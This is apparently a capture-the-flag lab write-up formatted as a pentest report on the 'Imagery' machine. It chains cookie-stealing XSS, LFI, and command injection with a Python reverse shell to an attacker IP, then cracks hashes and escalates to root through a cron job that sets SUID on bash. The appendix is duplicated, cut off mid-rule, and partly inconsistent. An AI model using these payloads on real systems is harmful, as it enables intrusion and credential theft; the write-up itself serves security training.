






# PENETRATION TESTING 
**Target:** Imagery (10.129.21.11)  
**Date:** February 07, 2026  
**Auditor:** Jose Maria Micoli
**Classification:** **CONFIDENTIAL / RESTRICTED**  
**Audit ID:** IMG-2026-02-07-001

---

## 1. Executive Summary

A rigorous forensic audit and penetration test was conducted against the **Imagery** infrastructure (10.129.21.11). The assessment successfully identified and exploited a chain of critical vulnerabilities resulting in full System Administrator (Root) compromise.

The attack vector began with **Stored Cross-Site Scripting (XSS)** in the administrative ticketing system, leading to **Session Hijacking**. Administrative access facilitated **Local File Inclusion (LFI)**, exposing the application's entire source code and sensitive configuration files. Source code analysis revealed an **Authenticated Remote Code Execution (RCE)** vulnerability in the image processing logic (`ImageMagick`), which was exploited to gain a foothold as the `web` user.

Internal enumeration uncovered an encrypted backup file generated by a custom tool (`charcol`), which was decrypted to reveal credentials for the user `mark`. Privilege escalation to **Root** was achieved by exploiting a logic flaw in the `charcol` binary, which allowed unprivileged users to schedule malicious tasks as root.

---


---
## 2. Phased Technical Analysis

### Phase 1: Reconnaissance & Network Enumeration

**Objective:** Map the attack surface and identify running services.

**Command:** `ping -c 3 imagery.htb`
**Output:**
```
PING imagery.htb (10.129.21.11) 56(84) bytes of data.
64 bytes from imagery.htb (10.129.21.11): icmp_seq=1 ttl=63 time=182 ms
64 bytes from imagery.htb (10.129.21.11): icmp_seq=2 ttl=63 time=248 ms
64 bytes from imagery.htb (10.129.21.11): icmp_seq=3 ttl=63 time=196 ms

--- imagery.htb ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2004ms
rtt min/avg/max/mdev = 181.692/208.615/247.696/28.284 ms
```

**Command:** `nmap -sV -sC -p- 10.129.21.11 -T4 --min-rate=1000`
**Output:**
```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-07 07:45 -0300
Warning: 10.129.21.11 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.21.11
Host is up (0.18s latency).
Not shown: 65333 closed tcp ports (conn-refused), 200 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:94:fb:70:36:1a:26:3c:a8:3c:5a:5a:e4:fb:8c:18 (ECDSA)
|_  256 c2:52:7c:42:61:ce:97:9d:12:d5:01:1c:ba:68:0f:fa (ED25519)
8000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.7)
|_http-title: Image Gallery
|_http-server-header: Werkzeug/3.1.3 Python/3.12.7
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.29 seconds
```

**Asset Identification:**


**Service Interrogation:**
**Command:** `curl -I imagery.htb:8000`
**Output:**
```
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.12.7
Date: Sat, 07 Feb 2026 10:56:08 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 146960
Connection: close
```


**Application Enumeration:**
The web application was manually navigated to identify functionality.



SQL Injection testing was performed on input fields but yielded negative results.


Further enumeration identified a Gallery and File Upload mechanism.


A "Report Bug" feature was identified, which accepts user input.


---

### Phase 2: Web Exploitation & Foothold

**Vulnerability:** Stored Cross-Site Scripting (XSS) in `/report_bug`.
**Impact:** Session Hijacking.

**Attacker Action:**
The following payload was submitted to the bug reporting form to steal the admin cookie.
**Payload:**
```html
">```
```


**Verification:**
The attacker server received a callback, confirming XSS execution.
```bash
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.21.11 - - [07/Feb/2026 08:09:13] "GET / HTTP/1.1" 200 -
```


**Forensic Artifact (Netcat Listener):**
Additional confirmation via Netcat.


**Negative Finding (Internal Port Scan):**
An attempt was made to scan internal port 80 using XSS, but returned no results.
**Payload:**
```javascript
<script> fetch('http://127.0.0.1:80/') .then(r => r.text()) .then(data => fetch('http://10.10.14.95:8000/port80?d=' + btoa(data.substring(0,500)))); </script>
```


**Exploitation: Cookie Theft**
**Payload:**
```html

```


**Forensic Artifact (Attacker Listener Log):**
```
nc -lvnp 8000
Listening on 0.0.0.0 8000
Connection received on 10.129.21.11 60926
GET /c=c2Vzc2lvbj0uZUp3OWpiRU9nekFNUlBfRmM0VUVaY3BFUjc0aU1vbExMU1VHeGM2QUVQLU9vcW9kNzkzVDNRbVJkVTk0ekJFY1lMOE00UmxIZUFEcksyWVdjRllxdGVnNTcxUjBFelNXMVJ1cFZhVUM3bzFKdjhhUGVReGhxMkxfcmtIQlRPMmlyVTZjY2FWeWRCOWI0TG9CS3JNdjJ3LmFZY2lmUS5xdVRIQWg5UldnXzlUdkRQTkZzSW9xbmN3a3c= HTTP/1.1
Host: 10.10.14.95:8000
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/138.0.0.0 Safari/537.36
Referer: http://0.0.0.0:8000/
```


**Decoded Session Cookie:**
```
session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aYcliQ.0GVlWn0zhVONc2onOfHcZSD9sNY
```


**Session Hijacking Verification:**
Access to the admin panel was confirmed.


**Vulnerability:** Authenticated Local File Inclusion (LFI).
**Endpoint:** `/admin/get_system_log`
**Parameter:** `log_identifier`

**Proof of Concept (Path Traversal):**
**Request:** `GET /admin/get_system_log?log_identifier=../../../../../../etc/passwd`


**Response (Full Content):**
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
usbmux:x:100:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:102:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:103:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:104:104::/nonexistent:/usr/sbin/nologin
uuidd:x:105:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:106:107::/nonexistent:/usr/sbin/nologin
tss:x:107:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:108:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
web:x:1001:1001::/home/web:/bin/bash
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
snapd-range-524288-root:x:524288:524288::/nonexistent:/usr/bin/false
snap_daemon:x:584788:584788::/nonexistent:/usr/bin/false
mark:x:1002:1002::/home/mark:/bin/bash
_laurel:x:101:988::/var/log/laurel:/bin/false
dhcpcd:x:110:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
```


<div style="background-color: rgba(0, 123, 255, 0.1); padding: 15px; border-left: 5px solid #007bff; margin: 15px 0; border-radius: 0 5px 5px 0;">
<strong>Expert Security Insight:</strong> The ability to read <code>/proc/self/environ</code> allowed for the extraction of sensitive environment variables, specifically <code>CRON_BYPASS_TOKEN</code>. This is a critical failure in environment isolation.
</div>

**Environment Variable Leaks:**


**Forensic Data Extraction: Source Code Retrieval**
The LFI was used to dump the entire application source code.


**File:** `/home/web/web/app.py`
```python
from flask import Flask, render_template
import os
import sys
from datetime import datetime
from config import *
from utils import _load_data, _save_data
from utils import *
from api_auth import bp_auth
from api_upload import bp_upload
from api_manage import bp_manage
from api_edit import bp_edit
from api_admin import bp_admin
from api_misc import bp_misc

app_core = Flask(__name__)
app_core.secret_key = os.urandom(24).hex()
app_core.config['SESSION_COOKIE_HTTPONLY'] = False

app_core.register_blueprint(bp_auth)
app_core.register_blueprint(bp_upload)
app_core.register_blueprint(bp_manage)
app_core.register_blueprint(bp_edit)
app_core.register_blueprint(bp_admin)
app_core.register_blueprint(bp_misc)

@app_core.route('/')
def main_dashboard():
    return render_template('index.html')

if __name__ == '__main__':
    current_database_data = _load_data()
    default_collections = ['My Images', 'Unsorted', 'Converted', 'Transformed']
    existing_collection_names_in_database = {g['name'] for g in current_database_data.get('image_collections', [])}
    for collection_to_add in default_collections:
        if collection_to_add not in existing_collection_names_in_database:
            current_database_data.setdefault('image_collections', []).append({'name': collection_to_add})
    _save_data(current_database_data)
    for user_entry in current_database_data.get('users', []):
        user_log_file_path = os.path.join(SYSTEM_LOG_FOLDER, f"{user_entry['username']}.log")
        if not os.path.exists(user_log_file_path):
            with open(user_log_file_path, 'w') as f:
                f.write(f"[{datetime.now().isoformat()}] Log file created for {user_entry['username']}.\n")
    port = int(os.environ.get("PORT", 8000))
    if port in BLOCKED_APP_PORTS:
        print(f"Port {port} is blocked for security reasons. Please choose another port.")
        sys.exit(1)
    app_core.run(debug=False, host='0.0.0.0', port=port)
```

**File:** `/home/web/web/api_edit.py` (Vulnerable Component)
```python
from flask import Blueprint, request, jsonify, session
from config import *
import os
import uuid
import subprocess
from datetime import datetime
from utils import _load_data, _save_data, _hash_password, _log_event, _generate_display_id, _sanitize_input, get_file_mimetype, _calculate_file_md5

bp_edit = Blueprint('bp_edit', __name__)

@bp_edit.route('/apply_visual_transform', methods=['POST'])
def apply_visual_transform():
    if not session.get('is_testuser_account'):
        return jsonify({'success': False, 'message': 'Feature is still in development.'}), 403
    if 'username' not in session:
        return jsonify({'success': False, 'message': 'Unauthorized. Please log in.'}), 401
    request_payload = request.get_json()
    image_id = request_payload.get('imageId')
    transform_type = request_payload.get('transformType')
    params = request_payload.get('params', {})
    if not image_id or not transform_type:
        return jsonify({'success': False, 'message': 'Image ID and transform type are required.'}), 400
    application_data = _load_data()
    original_image = next((img for img in application_data['images'] if img['id'] == image_id and img['uploadedBy'] == session['username']), None)
    if not original_image:
        return jsonify({'success': False, 'message': 'Image not found or unauthorized to transform.'}), 404
    original_filepath = os.path.join(UPLOAD_FOLDER, original_image['filename'])
    if not os.path.exists(original_filepath):
        return jsonify({'success': False, 'message': 'Original image file not found on server.'}), 404
    if original_image.get('actual_mimetype') not in ALLOWED_TRANSFORM_MIME_TYPES:
        return jsonify({'success': False, 'message': f"Transformation not supported for '{original_image.get('actual_mimetype')}' files."}), 400
    original_ext = original_image['filename'].rsplit('.', 1)[1].lower()
    if original_ext not in ALLOWED_IMAGE_EXTENSIONS_FOR_TRANSFORM:
        return jsonify({'success': False, 'message': f"Transformation not supported for {original_ext.upper()} files."}), 400
    try:
        unique_output_filename = f"transformed_{uuid.uuid4()}.{original_ext}"
        output_filename_in_db = os.path.join('admin', 'transformed', unique_output_filename)
        output_filepath = os.path.join(UPLOAD_FOLDER, output_filename_in_db)
        if transform_type == 'crop':
            x = str(params.get('x'))
            y = str(params.get('y'))
            width = str(params.get('width'))
            height = str(params.get('height'))
            # VULNERABILITY: OS Command Injection via f-string interpolation and shell=True
            command = f"{IMAGEMAGICK_CONVERT_PATH} {original_filepath} -crop {width}x{height}+{x}+{y} {output_filepath}"
            subprocess.run(command, capture_output=True, text=True, shell=True, check=True)
        elif transform_type == 'rotate':
            degrees = str(params.get('degrees'))
            command = [IMAGEMAGICK_CONVERT_PATH, original_filepath, '-rotate', degrees, output_filepath]
            subprocess.run(command, capture_output=True, text=True, check=True)
        elif transform_type == 'saturation':
            value = str(params.get('value'))
            command = [IMAGEMAGICK_CONVERT_PATH, original_filepath, '-modulate', f"100,{float(value)*100},100", output_filepath]
            subprocess.run(command, capture_output=True, text=True, check=True)
        elif transform_type == 'brightness':
            value = str(params.get('value'))
            command = [IMAGEMAGICK_CONVERT_PATH, original_filepath, '-modulate', f"100,100,{float(value)*100}", output_filepath]
            subprocess.run(command, capture_output=True, text=True, check=True)
        elif transform_type == 'contrast':
            value = str(params.get('value'))
            command = [IMAGEMAGICK_CONVERT_PATH, original_filepath, '-modulate', f"{float(value)*100},{float(value)*100},{float(value)*100}", output_filepath]
            subprocess.run(command, capture_output=True, text=True, check=True)
        else:
            return jsonify({'success': False, 'message': 'Unsupported transformation type.'}), 400
        new_image_id = str(uuid.uuid4())
        new_image_entry = {
            'id': new_image_id,
            'filename': output_filename_in_db,
            'url': f'/uploads/{output_filename_in_db}',
            'title': f"Transformed: {original_image['title']}",
            'description': f"Transformed from {original_image['title']} ({transform_type}).",
            'timestamp': datetime.now().isoformat(),
            'uploadedBy': session['username'],
            'uploadedByDisplayId': session['displayId'],
            'group': 'Transformed',
            'type': 'transformed',
            'original_id': original_image['id'],
            'actual_mimetype': get_file_mimetype(output_filepath)
        }
        application_data['images'].append(new_image_entry)
        if not any(coll['name'] == 'Transformed' for coll in application_data.get('image_collections', [])):
            application_data.setdefault('image_collections', []).append({'name': 'Transformed'})
        _save_data(application_data)
        return jsonify({'success': True, 'message': 'Image transformed successfully!', 'newImageUrl': new_image_entry['url'], 'newImageId': new_image_id}), 200
    except subprocess.CalledProcessError as e:
        return jsonify({'success': False, 'message': f'Image transformation failed: {e.stderr.strip()}'}), 500
    except Exception as e:
        return jsonify({'success': False, 'message': f'An unexpected error occurred during transformation: {str(e)}'}), 500
```

**File:** `/home/web/web/config.py`
```python
import os
import ipaddress

DATA_STORE_PATH = 'db.json'
UPLOAD_FOLDER = 'uploads'
SYSTEM_LOG_FOLDER = 'system_logs'

os.makedirs(UPLOAD_FOLDER, exist_ok=True)
os.makedirs(os.path.join(UPLOAD_FOLDER, 'admin'), exist_ok=True)
os.makedirs(os.path.join(UPLOAD_FOLDER, 'admin', 'converted'), exist_ok=True)
os.makedirs(os.path.join(UPLOAD_FOLDER, 'admin', 'transformed'), exist_ok=True)
os.makedirs(SYSTEM_LOG_FOLDER, exist_ok=True)

MAX_LOGIN_ATTEMPTS = 10
ACCOUNT_LOCKOUT_DURATION_MINS = 1

ALLOWED_MEDIA_EXTENSIONS = {'jpg', 'jpeg', 'png', 'gif', 'bmp', 'tiff', 'pdf'}
ALLOWED_IMAGE_EXTENSIONS_FOR_TRANSFORM = {'jpg', 'jpeg', 'png', 'gif', 'bmp', 'tiff'}
ALLOWED_UPLOAD_MIME_TYPES = {
    'image/jpeg',
    'image/png',
    'image/gif',
    'image/bmp',
    'image/tiff',
    'application/pdf'
}
ALLOWED_TRANSFORM_MIME_TYPES = {
    'image/jpeg',
    'image/png',
    'image/gif',
    'image/bmp',
    'image/tiff'
}
MAX_FILE_SIZE_MB = 1
MAX_FILE_SIZE_BYTES = MAX_FILE_SIZE_MB * 1024 * 1024

BYPASS_LOCKOUT_HEADER = 'X-Bypass-Lockout'
BYPASS_LOCKOUT_VALUE = os.getenv('CRON_BYPASS_TOKEN', 'default-secret-token-for-dev')

FORBIDDEN_EXTENSIONS = {'php', 'php3', 'php4', 'php5', 'phtml', 'exe', 'sh', 'bat', 'cmd', 'js', 'jsp', 'asp', 'aspx', 'cgi', 'pl', 'py', 'rb', 'dll', 'vbs', 'vbe', 'jse', 'wsf', 'wsh', 'psc1', 'ps1', 'jar', 'com', 'svg', 'xml', 'html', 'htm'}
BLOCKED_APP_PORTS = {8080, 8443, 3000, 5000, 8888, 53}
OUTBOUND_BLOCKED_PORTS = {80, 8080, 53, 5000, 8000, 22, 21}
PRIVATE_IP_RANGES = [
    ipaddress.ip_network('127.0.0.0/8'),
    ipaddress.ip_network('172.0.0.0/12'),
    ipaddress.ip_network('10.0.0.0/8'),
    ipaddress.ip_network('169.254.0.0/16')
]
AWS_METADATA_IP = ipaddress.ip_address('169.254.169.254')
IMAGEMAGICK_CONVERT_PATH = '/usr/bin/convert'
EXIFTOOL_PATH = '/usr/bin/exiftool'
```

**Credential Dump (`db.json` via LFI):**
```json
{
    "users": [
        {
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
            "isAdmin": true,
            "displayId": "a1b2c3d4",
            "login_attempts": 0,
            "isTestuser": false,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
            "isAdmin": false,
            "displayId": "e5f6g7h8",
            "login_attempts": 0,
            "isTestuser": true,
            "failed_login_attempts": 0,
            "locked_until": null
        }
    ],
    ...
}
```

**Password Cracking:**
`testuser` credentials were cracked.


**Exploitation: Remote Code Execution (RCE)**
Using the cracked credentials (`iambatman`), the attacker impersonated the `testuser` to bypass the `is_testuser_account` check and injected a command into the `width` parameter.


**Transformation Trigger:**


**Error Confirmation (Blind RCE):**


**Payload:**
```json
{
  "imageId": "a1a350fc-1350-4968-a1b2-848d79634067",
  "transformType": "crop",
  "params": {
    "x": 0,
    "y": 0,
    "width": "100; python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.95\",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/bash\")' #",
    "height": 400
  }
}
```

**Result:**
```bash
web@Imagery:~/web$ id
uid=1001(web) gid=1001(web) groups=1001(web)
```


---

### Phase 3: Post-Exploitation & Lateral Movement

**Automated Enumeration: LinPEAS**
A full system enumeration was performed. The output highlights the discovery of a suspicious backup file and environment variables.


**Command:** `./linpeas.sh`
**Relevant Output (Verbatim):**
```
...
╔══════════╣ Environment
╚ Any private information inside environment variables?
LESSOPEN=| /usr/bin/lesspipe %s
CRON_BYPASS_TOKEN=K7Zg9vB$24NmW!q8xR0p/runL!
USER=web
...
╔══════════╣ Backup folders
...
drwxr-xr-x 2 root root 4096 Sep 22 18:56 /var/backup
total 22516
-rw-rw-r-- 1 root root 23054471 Aug  6  2024 web_20250806_120723.zip.aes
...
╔══════════╣ Executable files potentially added by user (limit 70)
...
2025-08-02+19:56:15.1022096770 /home/web/web/bot/admin.py
...
```

**Bot Script Analysis (`admin.py`):**
Evidence of a Selenium bot running as `web` user with hardcoded credentials (which were found to be reused by user `mark`).

```python
web@Imagery:~$ cat /home/web/web/bot/admin.py
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.common.by import By
from selenium.webdriver.support.ui import WebDriverWait
from selenium.webdriver.support import expected_conditions as EC
import tempfile, shutil, time, traceback, uuid, os, glob

# ----- Config -----
CHROME_BINARY = "/usr/bin/google-chrome"
USERNAME = "admin@imagery.htb"
PASSWORD = "strongsandofbeach"
BYPASS_TOKEN = "K7Zg9vB$24NmW!q8xR0p%tL!"
APP_URL = "http://0.0.0.0:8000"
# ------------------
...
```

**Backup Decryption & Pivot:**
The file `/var/backup/web_20250806_120723.zip.aes` was identified as a `pyAesCrypt` archive.

**Decryption Process:**
```bash
❯ python3 dpyAesCrypt.py/dpyAesCrypt.py backup.zip.aes rockyou.txt -t 100
...
[✅] Password found: bestfriends
```

**Extracted `db.json` from Backup:**
This revealed the credentials for user `mark`.
```json
{
    "users": [
        ...
        {
            "username": "mark@imagery.htb",
            "password": "01c3d2e5bdaf6134cec0a367cf53e535",
            "displayId": "868facaf",
            "isAdmin": false,
            "failed_login_attempts": 0,
            "locked_until": null,
            "isTestuser": false
        },
        ...
    ]
}
```

**Password Cracking:**
`01c3d2e5bdaf6134cec0a367cf53e535` -> **supersmash**

**Lateral Movement:**
```bash
web@Imagery:~$ su mark
Password: 
mark@Imagery:/home/web$ id
uid=1002(mark) gid=1002(mark) groups=1002(mark)
```


---

### Phase 4: Privilege Escalation (Root)

**Sudo Rights Enumeration:**
```bash
mark@Imagery:~$ sudo -l
Matching Defaults entries for mark on Imagery:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/
snap/bin,
use_pty
User mark may run the following commands on Imagery:
(ALL) NOPASSWD: /usr/local/bin/charcol
```

**Exploitation of `charcol` Logic Flaw:**
The `charcol` binary allows unprivileged users to reset the application password and subsequently create automated tasks (cron jobs) that run as root.

**Step 1: Reset Application Password**
```bash
mark@Imagery:~$ sudo /usr/local/bin/charcol -R
Attempting to reset Charcol application password to default.
[2026-01-20 21:56:11] [INFO] System password verification required for this
operation.
Enter system password for user 'mark' to confirm:
[2026-01-20 21:56:17] [INFO] System password verified successfully.
Removed existing config file: /root/.charcol/.charcol_config
Charcol application password has been reset to default (no password mode).
Please restart the application for changes to take effect.
```

**Step 2: Configure New Password & Schedule Malicious Job**
```bash
mark@Imagery:~$ sudo /usr/local/bin/charcol shell
First time setup: Set your Charcol application password.
Enter '1' to set a new password, or press Enter to use 'no password' mode: 1
Enter new application password:
Confirm new application password:
...
charcol> auto add --schedule "* * * * *" --command "/bin/bash -c 'chmod u+s /bin/bash'" --name "pwn"
[2026-01-20 21:59:30] [INFO] Verification required for automated job management.
Enter Charcol application password:
[2026-01-20 21:59:32] [INFO] Application password verified.
[2026-01-20 21:59:32] [INFO] Auto job 'pwn' (ID: 3e7b56ec-48ec-43d4-930b-
964a9b243ced) added successfully. The job will run according to schedule.
[2026-01-20 21:59:32] [INFO] Cron line added: * * * * *
CHARCOL_NON_INTERACTIVE=true /bin/bash -c 'chmod u+s /bin/bash'
```

**Step 3: Root Access Confirmation**
```bash
mark@Imagery:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1474768 Oct 26 2024 /bin/bash

mark@Imagery:~$ bash -p
bash-5.2# id
uid=1002(mark) gid=1002(mark) euid=0(root) groups=1002(mark)
```

---

## 3. Appendix: Blue Team & DFIR Playbook

Based on the `linpeas.sh` logs provided, I have performed a deep-dive analysis. There are **two critical new findings** hidden in the logs that were not in the original report:

1. **Hardcoded Secret Leak:** The environment variables contain `CRON_BYPASS_TOKEN=K7Zg9vB$24NmW!q8xR0p/runL!`. This is a clear credential leak (CWE-798).
    
2. **Kernel Vulnerability (PwnKit):** The system is flagged as "probable" for **CVE-2021-4034 (PwnKit)**. While we used `charcol` to escalate, a real audit must report this known kernel exploit vector.
    

Here is the **fully patched Appendix** and the **Updated Remediation Matrix**, including these new findings.

---

## 3. Appendix: Blue Team & DFIR Playbook

### Framework Mapping Table (NIST / MITRE)

_Updated with LinPEAS findings._

|**ID**|**Vulnerability**|**NIST 800-53**|**MITRE ATT&CK**|
|---|---|---|---|
|**VULN-01**|Stored XSS|SI-10|T1189 (Drive-by Compromise)|
|**VULN-02**|Local File Inclusion|AC-6|T1005 (Data from Local System)|
|**VULN-03**|Command Injection (ImageMagick)|SI-10|T1059.006 (Python)|
|**VULN-04**|Password Reuse (Backup)|IA-5|T1555 (Credentials from Password Stores)|
|**VULN-05**|Sudo Logic Flaw (Charcol)|AC-6|T1548.003 (Sudo and SUID)|
|**VULN-06**|**Cleartext Secret in Env**|**IA-5 (Authenticator Mgt)**|**T1552.001 (Credentials in Files)**|
|**VULN-07**|**Unpatched Kernel (PwnKit)**|**SI-2 (Flaw Remediation)**|**T1068 (Exploitation for PrivEsc)**|

### IoC Inventory (Indicators of Compromise)

**File Artifacts:**

- `/var/backup/web_20250806_120723.zip.aes`
    
- `/home/web/web/db.json`
    
- `/tmp/selenium_failure.png`
    
- `/root/.charcol/.charcol_config`
    
- `/home/web/web/bot/admin.py` (Bot simulation script found in process list)
    

**Leaked Secrets (Environment Variables):**

- Variable: `CRON_BYPASS_TOKEN`
    
- Value: `K7Zg9vB$24NmW!q8xR0p/runL!`
    
- _Source: /proc/[pid]/environ of web process_
    

**Hashes:**

- `testuser` (MD5): `2c65c8d7bfbca32a3ed42596192384f6`
    
- `mark` (MD5): `01c3d2e5bdaf6134cec0a367cf53e535`
    
- Backup Archive (MD5): `c1355c88e9a51158f1f044243d08d042`
    

### Detection Engineering Rules

**YARA: pyAesCrypt Backup Detection**

Code snippet

```
rule Detect_pyAesCrypt_Header {
    meta:
        description = "Detects pyAesCrypt encrypted files"
        severity = "Medium"
    strings:
